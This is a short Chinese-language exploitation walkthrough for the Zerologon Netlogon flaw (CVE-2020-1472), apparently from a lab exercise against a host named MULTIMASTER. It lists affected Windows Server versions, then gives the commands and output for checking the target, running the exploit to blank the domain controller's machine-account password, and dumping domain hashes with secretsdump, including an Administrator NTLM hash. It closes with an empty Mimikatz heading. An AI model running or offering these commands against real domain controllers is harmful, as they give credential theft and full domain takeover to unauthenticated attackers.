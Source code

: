 # CVE-2020-1472 NetLogon权限提升漏洞

通过该漏洞，未经身份验证的攻击者只需要能访问城控的135端口即可通过 Netlogon 远程协议连接域控并重置域控机器账户的 Hash，从而导致攻击者可以利用域控的机器账户导出域内所有用户的Hash(域控的机器账户默认具有 DCSync 权限)，进而接管整个域。该漏洞存在的原因是 Netlogon 协议认证的加密模块存在缺陷，导致攻击者可以在没有凭据的情况下通过认证。通过认证后，调用 Netlogon 协议中 RPC 函数
NetrServerPasswordSet2 来重置城控机器账户的 Hash，从而接管全域。

影响版本：

```
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
Windows Server 2012
Windows Server 2012 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 R2 (Server Core installation)
Windows Server 2016
Windows Server 2016 (Server Core installation)
Windows Server 2019
Windows Server 2019 (Server Core installation)
Windows Server, version 1903 (Server Core installation)
Windows Server, version 1909 (Server Core installation)
Windows Server, version 2004 (Server Core installation)
```

先判断是否存在漏洞（第一个参数是域控的主机名）：

```python
python3.10 zerologon_tester.py MULTIMASTER 10.10.10.179
```

有漏洞就可以攻击：

```shell
python3.10 cve-2020-1472-exploit.py MULTIMASTER 10.10.10.179
Performing authentication attempts...
======================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

然后dump hash：

```shell
python3.10 secretsdump.py   -just-dc -no-pass MULTIMASTER\$@10.10.10.179
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:69cbf4a9b7415c9e1caf93d51d971be0:::
```





Mimikatz：


